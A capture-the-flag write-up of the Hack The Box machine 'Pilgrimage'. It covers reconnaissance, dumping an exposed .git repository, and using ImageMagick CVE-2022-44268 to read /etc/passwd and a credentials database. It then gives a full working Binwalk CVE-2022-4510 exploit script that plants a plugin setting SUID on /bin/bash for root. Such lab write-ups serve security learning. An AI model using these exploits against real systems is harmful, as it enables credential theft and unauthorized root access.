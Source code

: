 # Pilgrimage Writeup - by Thammanant Thamtaranon  

- Pilgrimage is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I began with a full TCP port scan including service/version detection and OS fingerprinting:  `nmap -A -T4 -p- 10.10.11.219`  

![Nmap_Scan](Nmap_Scan.png)  

- The scan revealed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  

- I added `pilgrimage.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I performed directory brute-forcing using `dirsearch`:  `dirsearch -u http://pilgrimage.htb`  

![Dirsearch_Scan1](Dirsearch_Scan1.png)  
![Dirsearch_Scan2](Dirsearch_Scan2.png)  

- The scan revealed a user named `emily` in the `COMMIT_EDITMSG` file.  
- Vhost enumeration yielded no results.  
- The cookie section indicated the application was PHP-based.  

- Discovering the `.git` directory, I used GitTools to dump the repository data:  `./../GitTools/Dumper/gitdumper.sh http://pilgrimage.htb/.git/ ../Downloads/dump`  

![Dump](Dump.png)  

- After encountering errors, I ran `git fsck` which revealed a missing blob:  
![Missing](Missing.png)  

- I created a directory and downloaded the missing blob:  
![Download](Download.png)  

- After verifying git's recognition:  
![Check](Check.png)  

- I ran `git checkout .` to restore files:  
![Lists](Lists.png)  

- Inspecting `index.php` revealed the website uses ImageMagick:  
![Index](Index.png)  

- Checking the version:  
`./magick -version`  
![Version](Version.png)  

- Research led me to discover **CVE-2022-44268** affecting ImageMagick 7.1.

## Exploitation  
- I obtained a proof-of-concept exploit and executed it:  
![POC](POC.png)  

- After uploading the malicious PNG and downloading the processed version, I used `identify` to extract the injected data:  
![Identify](Identify.png)  
![Profile](Profile.png)  

- Decoding the hex data: 
```
python3 -c "hex_data = '''726f6f743a783a303a303a726f6f743a2f726[...]'''.replace('\n','')
print(bytes.fromhex(hex_data).decode('utf-8'))"
```

- This revealed the contents of `/etc/passwd`, confirming user `emily`:  
![PASSWD](PASSWD.png)  

- Attempts to access `.ssh` and config files failed. Further code inspection revealed a database at `/var/db/pilgrimage`.  

- Converting the extracted data to a `.db` file:  `echo "53514c69746520666f726d617420330010000101004020200000004500..." | xxd -r -p > extracted.db`  

- This revealed emily's credentials:  
![Credential](Credential.png)  

- Using these credentials, I accessed the machine via SSH and obtained the user flag:  
![Emily](Emily.png)  

## Privilege Escalation  
- Checking sudo permissions showed emily had none:  `sudo -l`  

- Listing running services revealed `malwarescan.service`:  `systemctl list-units --type=service --state=running`  
![Services](Services.png)  

- Inspecting the service:  `systemctl status malwarescan.service`  
![Status](Status.png)  

- The service script `malwarescan.sh` used Binwalk v2.3.2:  
![Script](Script.png)  
![Binwalk](Binwalk.png)  

- Research led to **CVE-2022-4510**, a command injection vulnerability in Binwalk.  

I modified a PoC script to add SUID to `/bin/bash`:
```
    import os
    import argparse

    header_pfs = bytes.fromhex("5046532f302e390000000000000001002e2e2f2e2e2f2e2e2f2e636f6e6669672f62696e77616c6b2f706c7567696e732f62696e77616c6b2e70790000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000034120000a0000000c100002e")

    payload = """import binwalk.core.plugin
    import os
    class DirectRootPlugin(binwalk.core.plugin.Plugin):
        def init(self):
            # SUID bash
            os.system("chmod 4755 /bin/bash")
    """

    with open("input.png", "wb") as f:
        f.write(b"\x89PNG\r\n\x1a\n")

    with open("input.png", "rb") as f:
        data = f.read()

    with open("exploit.png", "wb") as f:
        f.write(data)
        f.write(header_pfs)
        f.write(payload.encode())
```

- This granted root access via `/bin/bash -p`:  
![Root](Root.png)  

- Finally, I obtained the root flag, completing the machine.
